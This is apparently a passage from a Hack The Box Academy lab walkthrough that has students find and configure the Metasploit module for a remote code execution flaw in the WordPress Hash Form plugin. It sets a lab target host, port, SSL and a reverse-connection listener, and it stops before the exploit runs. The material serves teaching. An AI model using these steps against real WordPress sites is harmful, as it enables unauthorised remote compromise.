 Students will start the MSF console and search for exploits (modules) related to `hash_form`:

Code: shell

```shell
msfconsole -q
search hash_form
```

```
┌─[eu-academy-5]─[10.10.14.60]─[htb-ac-8414@htb-w3xn5blhrl]─[~]
└──╼ [★]$ msfconsole -q

[msf](Jobs:0 Agents:0) >> search hash_form

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_hash_form_rce    2024-05-23       excellent  Yes    WordPress Hash Form Plugin RCE
   1    \_ target: PHP In-Memory             .                .          .      .
   2    \_ target: Unix/Linux Command Shell  .                .          .      .
   3    \_ target: Windows Command Shell     .                .          .      .

Interact with a module by name or index. For example info 3, use 3 or use exploit/multi/http/wp_hash_form_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command Shell'
```

Next, students will use the `use` command to begin interacting and configuring the `wp_hash_form_rce` exploit:

Code: shell

```shell
use 0
set RHOSTS STMIP
set RPORT 443
set SSL true
set LHOST tun0
```

```
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_hash_form_rce) >> set RHOSTS 10.129.45.54

RHOSTS => 10.129.45.54

[msf](Jobs:0 Agents:0) exploit(multi/http/wp_hash_form_rce) >> set RPORT 443

RPORT => 443

[msf](Jobs:0 Agents:0) exploit(multi/http/wp_hash_form_rce) >> set SSL true

[!] Changing the SSL option's value may require changing RPORT!
SSL => true

[msf](Jobs:0 Agents:0) exploit(multi/http/wp_hash_form_rce) >> set LHOST tun0

LHOST => tun0
```
